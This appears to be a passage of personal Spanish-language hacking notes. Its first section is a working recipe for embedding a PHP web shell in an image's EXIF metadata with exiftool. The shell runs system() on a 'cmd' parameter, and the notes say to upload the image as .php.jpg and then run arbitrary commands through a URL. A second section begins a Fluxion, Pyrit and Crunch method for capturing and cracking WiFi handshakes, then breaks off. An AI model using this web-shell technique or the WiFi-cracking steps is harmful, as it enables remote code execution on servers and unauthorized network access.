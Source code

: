![](RackMultipart20210412-4-pcx9xb_html_2a750d9382607bb3.png)



# EXIFTOOL - Cómo poner un payload php en una imagen

jueves, 7 de mayo de 2020

14:39

1) exiftool -a -G4 &quot;-picture\*&quot; myfile.mp3

2) exiftool -COPYNUM:picture -b myfile.mp3 \&gt; cover.png

3) exiftool -b -ThumbnailImage (filename) \&gt; (Output filename)

[https://ryanmo.co/2014/09/28/exiftool-cheatsheet/](https://ryanmo.co/2014/09/28/exiftool-cheatsheet/)

exiftool -DocumentName=&quot;\&lt;h1\&gt;CLK\&lt;br\&gt;\&lt;?php if(isset(\$\_REQUEST[&#39;cmd&#39;])){echo &#39;\&lt;pre\&gt;&#39;;\$cmd = (\$\_REQUEST[&#39;cmd&#39;]);system(\$cmd);echo &#39;\&lt;/pre\&gt;&#39;;} \_\_halt\_compiler();?\&gt;\&lt;/h1\&gt;&quot; image.jpeg

_Desde \&lt;_[_https://drive.google.com/file/d/1WRsTIP\_L829mvjRWEBMNWcOZNkPW81Oe/view_](https://drive.google.com/file/d/1WRsTIP_L829mvjRWEBMNWcOZNkPW81Oe/view)_\&gt;_

Renombrar la imagen como .php.jpg

Una vez subida la imagen ejecutar:

[http://vulnerable/admin/uploads/1369904954.php.png?cmd=uname%20-a](http://vulnerable/admin/uploads/1369904954.png?c=uname%20-a)

Se puede cambiar el comando **uname -a** por cualquier otro.



# FLUXION + PYRIT + CRUNCH - Cómo romper wifi con una red de equipos

jueves, 7 de mayo de 2020

14:39

para obtener el handshake

-- github.com/FluxionNetwork/fluxion.git

./fluxion

.5

.1

.3

(si no aparecen ssid es que la red está ocupada por otro proceso.

utilizar
